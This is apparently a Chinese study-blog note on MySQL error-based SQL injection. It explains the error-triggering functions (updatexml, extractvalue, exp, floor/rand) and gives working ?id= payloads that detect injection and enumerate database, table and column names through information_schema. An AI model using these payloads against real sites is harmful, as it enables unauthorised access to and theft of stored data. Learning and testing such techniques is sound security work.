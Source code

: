 title: SQL报错注入
author: liuGuobin
tags:
  - 日报
categories:
  - 日报
date: 2023-03-12 11:37:00
---
#### 表现
数据库在执行时，遇到语法不对，会显示报错信息，比如错误语句:select’

#### 原理
在公司开发项目是通常程序开发期间需要告诉使用者某些报错信息，方便程序员进行调试修复，定位文件错误，而且开发中会经常使用异常处理函数，捕获错误信息，比如在PHP中使用mysql_error()函数。如果SQL注入存在时，会有报错信息返回就可以采用报错注入进行攻击啦！！！

#### 思路
报错注入嘛，首先肯定要让它报错呀。
那么什么时候才会报错呢？
```
Xpath语法错误
     extractvalue(1,(concat(0x7e,(payload),0x7e)))
     updatexml(1,(concat(0x7e,(payload),0x7e)))
     0x7e这个十六进制数代表符号~，~这个符号在xpath语法中是不存在的，因此总能报错
     详细的使用方法请自行查找
数据溢出错误
     exp(x)
     当参数x超过710时，exp()函数会报错
主键重复错误
     floor(x)：
     count()和group by遇到rand()产生的重复值时报错
函数特性报错
     使用name_const来制造一个列
     mysql列名重复会报错
参数类型报错(不写了，自己找去)
```
现在有了报错，怎么利用？
忘记了那个and和or语句了吗？
把SQL语句放到产生报错的语句中，
再将原本要传入的参数和上面已经结合起来的语句用and合为payload。

#### 开始注入
##### 判断是否存在注入
```
?id=1' -- a
```
老一套了，直接拿来用。

##### 判断是否是报错注入
```
?id=1' and updatexml(1,'~',3) -- a
```
如果报错了那说明是的，这里可以多换几个函数。
要让前面一半正常执行！

##### 爆库
```
?id=-1' and updatexml(1,concat('~',
	substr( 
		(select group_concat(schema_name)
		from information_schema.schemata)
	, 1 , 31)
),3) -- a
```
一样的，函数自己换
但是注意高版本数据库基本上都没有这个漏洞了
尽管这样，一旦有漏洞就能用这个库跑了

##### 爆表
```
?id=1' and updatexml(1,concat('~',
	substr( 
		(select group_concat(table_name)
		from information_schema.tables
		where table_schema = '库名')
	, 1 , 31)
),3) -- a
```

##### 爆字段
```
?id=1' and updatexml(1,concat('~',
	substr( 
		(select group_concat(column_name)
		from information_schema.columns
		where table_schema = '库名' and table_name = '表名')
	, 1 , 31)
),3) -- a
```
